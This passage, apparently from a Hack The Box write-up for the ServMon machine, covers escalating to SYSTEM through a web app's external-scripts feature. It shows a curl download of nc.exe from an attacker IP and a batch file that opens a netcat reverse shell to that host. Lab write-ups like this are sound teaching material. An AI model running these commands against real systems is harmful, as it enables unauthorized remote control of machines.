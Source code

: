 This web app contains functionality to create scripts that can be executed in the context of `NT AUTHORITY\SYSTEM`. 

### Exploitation

We will upload `nc.exe` to the target machine and then try to gain a reverse shell by executing it through the web app. 

```cmd
nadine@SERVMON C:\Users\Nadine\Desktop>curl 10.10.14.12/nc.exe -o nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 59392  100 59392    0     0  59392      0  0:00:01 --:--:--  0:00:01  137k
nadine@SERVMON C:\Users\Nadine\Desktop>echo C:\Users\Nadine\Desktop\nc.exe 10.10.14.12 443 -e cmd.exe > C:\Temp\shell.bat

nadine@SERVMON C:\Users\Nadine\Desktop>type C:\Temp\shell.bat
C:\Users\Nadine\Desktop\nc.exe 10.10.14.12 443 -e cmd.exe
```

Go to `Settings > External Scripts > Scripts` to add a new script as follows:

![Desktop View](/assets/img/htb/machines/windows/easy/servmon/new_script.png)
